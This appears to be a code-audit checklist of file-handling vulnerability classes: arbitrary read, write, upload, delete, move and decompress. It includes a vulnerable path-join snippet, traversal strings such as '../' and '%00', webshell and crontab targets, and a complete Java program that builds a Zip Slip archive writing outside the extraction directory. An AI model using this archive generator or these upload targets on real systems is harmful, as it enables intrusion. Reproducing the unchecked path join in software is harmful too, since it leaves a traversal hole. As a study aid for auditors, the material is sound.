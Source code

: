 ## Read
- Arbitrary file read
  - physical path
  - configure files
    - server
    - application
  - other
    - db
    - key

## Upload
- Arbitrary file write/upload
  - webshell
  - System file: related to [ATT&CK]()
    - crontab
    - .profile
  - key configure file
    - indirect control file content
- Cross directory: path splice user controlled file-name without checking or filter
  - contains(. / .. / %00 / ../ / ..\ /)
- Race Condition
  - file delete and can be access temporarily
- several process
  - step1 upload and step2 modify
- DoS
  - path init: should be path but replace with a file

## Delete
- Arbitrary
  - DoS
- 

## Move
  Guess the meaning of parameter in the request body, maybe a path name or other:
- overwrite important file to DoS
- move sensitive file and read
- upload file and move to web directory: jar/jsp


## Decompress
```
input = RequestPram(file);    # file = ../../../../tmp/poc.txt
File file = path + input; 
new ZipEntry(file);
```
Exploit
```
import java.io.File;
 import java.io.FileOutputStream;
 import java.util.zip.ZipEntry;
 import java.util.zip.ZipOutputStream;
 public class ZipExp { public static void main(String[] args) throws Exception { StringBuilder sb = new StringBuilder();
 sb.append("just a test");
 File f = new File("D:\\exp.zip");
 ZipOutputStream out = new ZipOutputStream(new FileOutputStream(f));
 ZipEntry e = new ZipEntry("../../../../../../../../../../../../../../../../../../../../tmp/pwn.txt");
 out.putNextEntry(e);
 byte[] data = sb.toString().getBytes();
 out.write(data, 0, data.length);
 out.closeEntry();
 out.close();
 } }
```


## Combine
- business logic
- sensitive function
  - execute script
  - 

## Function
### Archive
- ZipEntry.getName()


### xlsx
- XMLReader.setFeture
- 
